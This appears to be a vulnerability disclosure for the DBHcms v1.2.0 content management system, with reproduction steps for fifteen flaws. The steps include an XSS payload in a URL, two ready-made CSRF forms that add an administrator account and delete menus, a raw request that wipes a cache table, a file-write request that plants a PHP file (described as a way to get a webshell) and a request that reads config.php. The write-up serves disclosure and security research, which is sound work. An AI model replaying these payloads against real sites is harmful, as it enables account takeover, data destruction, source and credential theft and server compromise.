


# DBHcms v1.2.0 multiple Vulnerability

## Test environment

```
Download Page: 
http://down.admin5.com/php/139227.html
https://github.com/ksbunk/dbhcms/releases/tag/dbhcms-1.2.0

windows 10 + php 5.4.31 + Apache2.2 + DBHcms v1.2.0
```

## Descriptions

```
[1]
DBHcms v1.2.0 has a directory traversal vulnerability cause there has no directory control function in directory /dbhcms/. A remote unauthenticated attacker can exploit this vulnerability to obtain server-sensitive information.

[2]
DBHcms v1.2.0 has a sensitive information leaks vulnerability cause there has no security access control in /dbhcms/ext/news/ext.news.be.php, A remote unauthenticated attacker can exploit this vulnerability to get path information.

[3]
DBHcms v1.2.0 has a stored xss vulnerability cause there has no security filter of $_GET['dbhcms_pid'] variable in dbhcms\page.php line 107, A remote unauthenticated attacker can exploit this vulnerability to hijacking other users.

[4]
DBHcms v1.2.0 has a stored xss vulnerability cause there has no htmlspecialchars function form 'Name' in dbhcms\types.php, A remote unauthenticated attacker can exploit this vulnerability to hijacking other users.
 
[5]
DBHcms v1.2.0 has a stored xss vulnerability cause there has no security filter in dbhcms\mod\mod.users.view.php line 57 for user_login, A remote authenticated with admin user can exploit this vulnerability to hijacking other users.

[6]
DBHcms v1.2.0 has a reflected xss vulnerability cause there has no security filter in dbhcms\mod\mod.selector.php line 108 for $_GET['return_name'] parameter, A remote authenticated with admin user can exploit this vulnerability to hijacking other users.

[7]
DBHcms v1.2.0 has a stored xss vulnerability cause there has no htmlspecialchars function for 'menu_description' variable in dbhcms\mod\mod.menus.edit.php line 83 and in dbhcms\mod\mod.menus.view.php line 111, A remote authenticated with admin user can exploit this vulnerability to hijacking other users.

[8]
DBHcms v1.2.0 has a stored xss vulnerability cause there has no htmlspecialchars function in dbhcms\mod\mod.domain.edit.php line 119, A remote authenticated with admin user can exploit this vulnerability to hijacking other users.

[9]
DBHcms v1.2.0 has a stored xss vulnerability cause there has no htmlspecialchars function for '$_POST['pageparam_insert_name']' variable in dbhcms\mod\mod.page.edit.php line 227, A remote authenticated with admin user can exploit this vulnerability to hijacking other users.

[10]
DBHcms v1.2.0 has a stored xss vulnerability cause there has no htmlspecialchars function for '$_POST['pageparam_insert_description']' variable in dbhcms\mod\mod.page.edit.php line 227, A remote authenticated with admin user can exploit this vulnerability to hijacking other users.

[11]
DBHcms v1.2.0 has a csrf vulnerability cause there has no csrf protection mechanism,as demonstrated by csrf for an index.php?dbhcms_pid=-70 can add a user.

[12]
DBHcms v1.2.0 has a csrf vulnerability cause there has no csrf protection mechanism,as demonstrated by csrf for an /index.php?dbhcms_pid=-80&deletemenu=9 can delete any menu.

[13]
DBHcms v1.2.0 has an unauthorized operation vulnerability cause There's no access control at line 175 of dbhcms\page.php for empty cache operation.A remote unauthenticated can exploit this vulnerability to empty a table.

[14]
DBHcms v1.2.0 has a Arbitrary file write vulnerability cause in dbhcms\mod\mod.editor.php $_POST['updatefile'] is filename and $_POST['tinymce_content'] is file content,and there has no filter function for security, you can write any filename with any content. A remote authenticated with admin user can exploit this vulnerability to get a webshell.

[15]
DBHcms v1.2.0 has an unauthorized operation vulnerability cause in dbhcms\mod\mod.editor.php $_GET['file'] is filename,and there has no filter function for security, you can read any file's content. A remote authenticated with admin user can exploit this vulnerability to read all web source code.

```

## [1]

just visit `http://localhost:8089/dbhcms/` 


## [2]

in /dbhcms/ext/news/ext.news.be.php, there has no security access control.


just visit `http://localhost:8089/dbhcms/ext/news/ext.news.be.php`


## [3]

there has no security filter of $_GET['dbhcms_pid'] variable in dbhcms\page.php line 107.


in dbhcms\func.php line 182 dbhcms_pid will stored in database and no security filter before.


visit `http://localhost:8089/?dbhcms_params=2&dbhcms_pid=2222` 


then, when authenticated admin user access to `http://localhost:8089/index.php?dbhcms_pid=-110`



## [4]

in dbhcms\types.php there has no htmlspecialchars function for 'Name'.


visit `http://localhost:8089/index.php?dbhcms_did=1&dbhcms_pid=8&dbhcms_lang=en`

at `Name:` parameter filled `2`


## [5]

there has no security filter in dbhcms\mod\mod.users.view.php line 57 for user_login.


first login as admin user, then visit `http://localhost:8089/index.php?dbhcms_pid=-71`

at `User :` parameter filled ``


## [6]

there has no security filter in dbhcms\mod\mod.selector.php line 108 for $_GET['return_name'] parameter .


first login as admin user, then visit `http://localhost:8089/index.php?dbhcms_pid=-8&data_type=DT_USER&return_name=2222');"></a><script>alert(1)</script>//'`


## [7]

there has no htmlspecialchars function for 'menu_description' variable in dbhcms\mod\mod.menus.edit.php line 83 and in dbhcms\mod\mod.menus.view.php line 111.




first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-81

at `Description :` parameter filled `` 


then visit http://localhost:8089/index.php?dbhcms_pid=-80


## [8]

there has no htmlspecialchars function in dbhcms\mod\mod.domain.edit.php line 119


first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-21

at `Description` parameter filled `` 


## [9]

there has no htmlspecialchars function for '$_POST['pageparam_insert_name']' variable in dbhcms\mod\mod.page.edit.php line 227


first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-12

at `Parameter:` parameter filled `33'` 


## [10]
there has no htmlspecialchars function for '$_POST['pageparam_insert_description']' variable in dbhcms\mod\mod.page.edit.php line 227


first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-12

at `Description:` parameter filled `33">//` 


## [11]

first login as admin user, then visit http://ip:port/csrf.html and click Submit request

csrf.html

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8089/index.php?dbhcms_pid=-70" method="POST">
      <input type="hidden" name="dbhcms_save_user" value="new" />
      <input type="hidden" name="user_login_hidden" value="" />
      <input type="hidden" name="user_login" value="aaaa" />
      <input type="hidden" name="user_passwd" value="aaaa" />
      <input type="hidden" name="user_name" value="aaaa" />
      <input type="hidden" name="user_sex" value="ST_FEMALE" />
      <input type="hidden" name="user_company" value="aaaa" />
      <input type="hidden" name="user_location" value="aaaa" />
      <input type="hidden" name="user_email" value="asd@qq.com" />
      <input type="hidden" name="user_website" value="http://123.com" />
      <input type="hidden" name="user_lang" value="en" />
      <input type="hidden" name="user_domains" value="1" />
      <input type="hidden" name="user_level" value="A" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

## [12]


first login as admin user, then visit http://ip:port/csrf.html and click Submit request

Warning: you should add some menu for this test by visit `http://localhost:8089/index.php?dbhcms_pid=-81` and `deletemenu`'s value is unstable.

csrf.html

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8089/index.php">
      <input type="hidden" name="dbhcms_pid" value="-80" />
      <input type="hidden" name="deletemenu" value="9" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## [13]

first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-30 to enable `cacheEnabled`,then logout for unprivliged operate test.


There's no access control at line 175 of dbhcms\page.php for cache empty operate.


you can empty the table named `xxx_cms_cache` by requesting the following:

```
POST /index.php?dbhcms_pid=9999999999&dbhcms_params=32333 HTTP/1.1
Host: localhost:8089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Connection: close
Referer: http://localhost:8089/index.php?dbhcms_pid=9999999999&dbhcms_params=3333
Upgrade-Insecure-Requests: 1

dbhcmsCache=CT_EMPTYALL
```


## [14]

in dbhcms\mod\mod.editor.php $_POST['updatefile'] is filename and $_POST['tinymce_content'] is file content,and there has no filter function for security, you can write any filename with any content. 


first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-6
POST
updatefile=123.php&tinymce_content=<?php phpinfo();?>


then visit http://localhost:8089/123.php


## [15]

in dbhcms\mod\mod.editor.php $_GET['file'] is filename,and there has no filter function for security, you can read any file's content. 

first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-6

view-source:http://localhost:8089/index.php?dbhcms_pid=-6&file=config.php

